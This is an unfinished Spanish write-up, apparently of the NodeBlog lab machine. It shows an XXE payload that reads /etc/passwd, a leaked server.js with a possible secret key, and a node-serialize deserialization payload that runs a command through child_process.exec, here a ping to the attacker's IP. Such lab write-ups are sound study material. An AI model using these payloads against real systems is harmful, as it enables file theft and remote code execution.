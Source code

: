 ## Explotación

Modifico mi xxe desde mi consola:
``` xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
    <title>Este es el title </title>
    <description>la description tralalalelele</description>
    <markdown>&xxe;</markdown>
</post>
```
Esa primera línea la consigo desde mi propio blog en "Método Hacking Web" en el apartado XXE. Esa info la recogí a su vez en la página de **portswigger**.

¡Funciona!. Consigo que me muestre el /etc/passwd.


![etcPaswd]({{ 'assets/img/writeups/NodeBlog/etcPasswd.png' | relative_url }}){: .center-image }

Un poco más abajo del /etc/passwd vemos al usuario admin. Fijandome en los usuarios que tienen un /bin/bash o un /bin/sh de shell puedo averiguar los usuarios. En este caso solo hay dos coincidencias; root y admin.

Intento ver la id_rsa del usuario admin pero no hay suerte. Busco por internet archivos comprometidos o que den más información en un **nodejs**, está server.js. Provocando un error mediante burpsuite a veces salen rutas (puse una comilla en un campo). Salió la ruta /opt/blog así que voy a buscar por /opt/blog/server.js

![ServerJs]({{ 'assets/img/writeups/NodeBlog/serverjs.png' | relative_url }}){: .center-image }

Encuentro rutas, servicios y alguna posible credencial. Así interesante está mongodb, una posible credencial; **UHC-SecretKey-123**. La pruebo para ssh pero nada. También veo node-serialize y debajo entiendo que se deserializa una data siendo esa data posiblemente la cookie. Si vemos esto, que hay una des/serialización y además corriendo node.js pensemos en un Deserialization Attack.

Yo busco directamente en mi blog, que tengo los apuntes de este ataque allí- están en Hacking Web- esos apuntes los recogí de esta página:  
 https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Lo explican muy bien. Copiaré directamente la linea serializada y modificaré el comando a mi gusto:
```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.8',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```
He cambiado el comando ls por el ping a mi máquina para comprobar que tengo RCE, además he quitado los \n y \t (espacios y tabuladores), y juntado el function al parentésis que le sigue.  
Bien, esa es la data serializada pero hay que pasarla a formato url-encode porque al enviarla mediante el navegador puede que de problemas si no. Lo hago mediate el burpsuite:

![BurpEncode]({{ 'assets/img/writeups/NodeBlog/burpcode.png' | relative_url }}){: .center-image }

Meto esa data urlencodeada en la parte de de la cookie en la consola del navegaodr peeero no hay manera de que me funcione..Ni quitando todos los espacios. En principio debería funcionar pero algo debo estar poniendo mal.  
Guillermo puede parecer una tontería peero al actualizar en vez de haberle dado tanto al enter en la url para recargar prueba más **fn + f5** para recargar página. Incluso puedes hacer antes **Ctrl + f5** para, además de actualizar, borrar los datos de la memoria caché.

Hasta la próxima, espero traerosla completa.